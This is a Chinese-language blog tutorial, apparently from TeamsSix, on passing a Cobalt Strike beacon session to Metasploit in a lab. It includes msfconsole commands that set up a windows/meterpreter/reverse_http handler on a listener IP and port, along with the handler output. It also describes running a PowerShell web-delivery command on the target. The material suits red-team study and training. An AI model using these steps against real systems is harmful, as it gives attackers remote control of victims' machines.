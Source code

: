 与上述 Cobalt Strike 的操作步骤一样，这里先创建一个 HTTPS Beacon，接下来创建一个 Powershell 类型的 Scripted Web Delivery（S）

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-27-02.png)为了使 Cobalt Strike 获得一个会话，需要复制创建好的命令，并在靶机上运行，此时靶机便会上线了

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-30-31.png)

## 2、Metasploit Framework 上的操作

首先，在 Metasploit Framework 上调用 handler 模块

```
use exploit/multi/handler
```

设置 HTTP Payload

```
set payload windows/meterpreter/reverse_http
set lhost 192.168.175.200
set lport 4480
```

运行该模块

```
run
```

整体过程如下：

```
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http

msf5 exploit(multi/handler) > set lhost 192.168.175.200
lhost => 192.168.175.200

msf5 exploit(multi/handler) > set lport 4480
lport => 4480

msf5 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on http://192.168.175.200:4480
```

## ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-35-45.png)3、开始会话传递

在 Cobalt Strike 上先创建一个  Foreign HTTP 监听，IP 和 端口设置成上面 Metasploit Framework 所设置 handler 模块的端口和 IP

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-39-58.png)

之后在 Cobalt Strike 上右击待传递的会话选择 Spawn ，选择刚刚创建的 Foreign HTTP 监听

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-54-23.png)

来到 Metasploit Framework 便能够看到会话已经传递过来了

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_18-57-35.png)

> 更多信息欢迎关注我的微信公众号：TeamsSix
>

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)